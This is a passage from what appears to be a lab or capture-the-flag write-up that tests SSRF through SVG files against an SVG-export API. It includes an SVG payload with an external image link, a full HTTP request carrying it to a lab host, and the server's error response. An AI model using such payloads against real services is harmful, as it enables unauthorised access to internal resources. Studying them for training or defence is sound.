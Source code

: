 One of the first that we can try is SSRF through SVG files.

An example payload would be like something below →

```xml
<svg width="200" height="200"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="https://example.com/image.jpg" height="200" width="200"/>
</svg>
```

Here we are embedding an `<image>` tag inside SVG file that will trigger an out-of-band connection to `[https://example.com](https://example.com)`.

Let us try that out.

```bash
POST /api/export HTTP/1.1
Host: 178.62.83.221:30922
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://178.62.83.221:30922/dashboard
Content-Type: application/json
Origin: http://178.62.83.221:30922
Content-Length: 207
Connection: close
Cookie: session=eyJ1c2VybmFtZSI6Im5laGFsIn0=; session.sig=92Y32jSH0QWFLC5oxDr4rUuStMY

{"svg":"<svg width=\"200\" height=\"200%\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\"><image xlink:href=\"https://nehalhacks.in\" height=\"200\" width=\"200\"/></svg>"}
```

```xml
HTTP/1.1 500 Internal Server Error
X-Powered-By: Express
Content-Security-Policy: default-src 'none'
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
Content-Length: 657
Date: Fri, 20 May 2022 06:29:22 GMT
Connection: close

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Error: Unable to derive width and height from SVG. Consider specifying corresponding options<br> &nbsp; &nbsp;at Converter.[convert] (/app/node_modules/convert-svg-core/src/Converter.js:211:13)<br> &nbsp; &nbsp;at processTicksAndRejections (node:internal/process/task_queues:96:5)<br> &nbsp; &nbsp;at async Converter.convert (/app/node_modules/convert-svg-core/src/Converter.js:114:20)<br> &nbsp; &nbsp;at async API.convert (/app/node_modules/convert-svg-core/src/API.js:80:16)<br> &nbsp; &nbsp;at async /app/routes/index.js:61:15</pre>
</body>
</html>
```
